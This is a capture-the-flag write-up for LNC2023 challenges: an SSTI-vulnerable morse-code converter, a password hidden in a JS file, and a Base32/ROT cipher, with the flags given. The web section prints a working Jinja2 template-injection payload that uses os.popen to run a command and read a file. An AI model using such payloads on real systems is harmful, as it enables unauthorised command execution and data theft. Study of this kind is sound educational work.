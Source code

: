 <img width="475" alt="image" src="https://user-images.githubusercontent.com/79740895/231982345-cbbd17fb-bd74-4f22-97bf-d8e29d99f035.png">

It will convert our input to morse code and it is vulnerable to SSTI.

test payload: `--> {{8*8}}`

<img width="330" alt="image" src="https://user-images.githubusercontent.com/79740895/231982840-ee4dbd56-8c82-4a10-bda5-89f553eabe49.png">

Now we can use RCE payload to read flag

Payload: `-->{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /www/flag.txt').read() }}`

<img width="458" alt="image" src="https://user-images.githubusercontent.com/79740895/231983204-6f38a96f-67a4-4d83-a804-54b622a1c631.png">

```
flag: LNC2023{T3mpl4t35_4r3_c00L_bUt_d4nG3r0u5_776843}
```

<br />

### The Password

Description: _You stumble across a secret website that asks for your password..._

_thepassword.s.lagncra.sh_

flag is in the js file.

http://thepassword.s.lagncra.sh/password.js

```
flag: LNC2023{s0m3t1me$_1t_i5_pr377y_s1aY}
```


<br />

----------

<br />

## Crypto

### You Don't Know About Us

Description: _You ain’t gonna understand our language!

JZUWGZJAORZHSIDIOVWWC3RBEBKGQ2LTEBUXGIDUNBSSAYLDOR2WC3BAMVXGG33EMVSCA3LFONZWC43HMU5AUQSEKMZDAMRTPN2GWY3SORVWG4T5_

It is Base32 > Rot 10(Rot13 with n=10)

```
flag:  LNC2023{dumbdumb}
```

<br />
